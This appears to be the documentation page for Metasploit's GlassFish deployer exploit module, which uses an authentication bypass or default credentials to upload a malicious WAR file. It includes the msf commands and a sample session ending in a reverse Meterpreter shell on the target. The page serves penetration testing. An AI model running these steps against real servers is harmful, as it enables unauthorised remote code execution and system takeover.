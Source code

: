 ## Description

This module logs in to an GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

## GlassFish

GlassFish is an open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

## Verification Steps

1. Do: ```use exploit/multi/http/glassfish_deployer```
2. Do: ```set RHOST [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
